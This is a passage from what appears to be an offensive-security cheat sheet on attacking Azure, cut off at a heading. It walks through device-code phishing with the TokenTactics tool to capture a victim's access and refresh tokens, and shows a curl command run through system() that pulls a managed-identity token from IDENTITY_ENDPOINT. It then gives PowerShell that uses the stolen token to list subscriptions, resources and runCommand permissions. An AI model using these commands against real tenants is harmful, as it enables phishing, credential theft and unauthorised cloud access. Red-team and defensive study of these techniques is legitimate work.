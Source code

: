 - Import TokenTactics: `PS C:\TokenTactics> Import-Module .\TokenTactics.psd1`
- Request a device code for the Azure Graph API using TokenTactics: `Get-AzureToken -Client Graph`
- Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
- Leave TokenTactics running in the PowerShell window and send the phishing email
- Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
- Enjoy your **Access Token** & **Refresh Token**

## Token from Managed Identity

> **MSI_ENDPOINT** is an alias for **IDENTITY_ENDPOINT**, and **MSI_SECRET** is an alias for **IDENTITY_HEADER**.

Find IDENTITY\_HEADER and IDENTITY\_ENDPOINT from the environment : `env`

Most of the time, you want a token for one of these resources:

- https://storage.azure.com
- https://vault.azure.net
- https://graph.microsoft.com
- https://management.azure.com

### Azure API via Powershell

Get **access_token** from **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

Then query the Azure REST API to get the **subscription ID** and more .

```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value 

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```

⧉ Copied!

### Azure API via Python Version
